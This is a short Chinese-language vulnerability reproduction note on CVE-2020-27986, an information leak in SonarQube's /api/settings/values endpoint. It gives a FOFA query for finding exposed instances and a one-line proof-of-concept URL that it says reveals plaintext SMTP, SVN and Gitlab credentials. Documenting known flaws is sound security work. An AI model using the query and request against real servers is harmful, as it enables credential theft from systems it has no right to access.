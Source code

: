 # SonarQube values 信息泄露漏洞 CVE-2020-27986

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以获取部分敏感信息

## 漏洞影响

```
SonarQube
```

## FOFA

```
app="sonarQube-代码管理"
```

## 漏洞复现

主页如下

![](./images/202202101933673.png)



漏洞POC



```plain
http://xxx.xxx.xxx.xxx/api/settings/values
```



![](./images/202202101933276.png)



可泄露的为：明文SMTP、SVN和Gitlab等敏感信息



![](./images/202202101934123.png)



## 